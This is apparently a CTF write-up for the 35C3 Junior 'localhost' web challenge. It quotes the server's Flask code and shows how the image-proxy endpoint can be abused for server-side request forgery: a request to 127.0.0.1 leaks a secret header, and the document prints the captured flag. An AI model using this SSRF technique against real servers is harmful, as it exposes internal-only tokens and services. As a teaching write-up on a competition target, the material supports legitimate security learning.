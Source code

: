 # 35C3 Junior CTF – localhost

* **Category:** Web
* **Points:** variable

## Challenge

> We came up with some ingenious solutions to the problem of password reuse. For users, we don't use password auth but send around mails instead. This works well for humans but not for robots. To make test automation possible, we didn't want to send those mails all the time, so instead we introduced the localhost header. If we send a request to our server from the same host, our state-of-the-art python server sets the localhost header to a secret only known to the server. This is bullet-proof, luckily.
>
> http://35.207.189.79/
> 
> Difficulty Estimate: Medium
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

Analyzing `http://35.207.189.79/pyserver/server.py` two interesting methods can be discovered.

The header is set in the following method.

```Python
@app.after_request
def secure(response: Response):
    if not request.path[-3:] in ["jpg", "png", "gif"]:
        response.headers["X-Frame-Options"] = "SAMEORIGIN"
        response.headers["X-Xss-Protection"] = "1; mode=block"
        response.headers["X-Content-Type-Options"] = "nosniff"
        response.headers["Content-Security-Policy"] = "script-src 'self' 'unsafe-inline';"
        response.headers["Referrer-Policy"] = "no-referrer-when-downgrade"
        response.headers["Feature-Policy"] = "geolocation 'self'; midi 'self'; sync-xhr 'self'; microphone 'self'; " \
                                             "camera 'self'; magnetometer 'self'; gyroscope 'self'; speaker 'self'; " \
                                             "fullscreen *; payment 'self'; "
        if request.remote_addr == "127.0.0.1":
            response.headers["X-Localhost-Token"] = LOCALHOST

    return response
```

The functionality that can be abused to generate a request from the same server is the following.

```Python
# Proxy images to avoid tainted canvases when thumbnailing.
@app.route("/api/proxyimage", methods=["GET"])
def proxyimage():
    url = request.args.get("url", '')
    parsed = parse.urlparse(url, "http")  # type: parse.ParseResult
    if not parsed.netloc:
        parsed = parsed._replace(netloc=request.host)  # type: parse.ParseResult
    url = parsed.geturl()

    resp = requests.get(url)
    if not resp.headers["Content-Type"].startswith("image/"):
        raise Exception("Not a valid image")

    # See https://stackoverflow.com/a/36601467/1345238
    excluded_headers = ['content-encoding', 'content-length', 'transfer-encoding', 'connection']
    headers = [(name, value) for (name, value) in resp.raw.headers.items()
               if name.lower() not in excluded_headers]

    response = Response(resp.content, resp.status_code, headers)
    return response
```

This is the functionality used by the `loadImage` method in the programming environment.

The server runs at what defined here:

```Python
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8075)
```

An image is mandatory to abuse the service, because the Content-Type is strictly checked, but three extensions are blacklisted in the code that sets the target header.

Hence, the following image can be used: `img/paperbots.svg`.

The exploit is performed with a GET request like the following (or using `0.0.0.0` for the IP address).

```
http://35.207.189.79/api/proxyimage?url=http://127.0.0.1:8075/img/paperbots.svg
```
    
The response will contain the flag.

```
X-Localhost-Token: 35C3_THIS_HOST_IS_YOUR_HOST_THIS_HOST_IS_LOCAL_HOST
```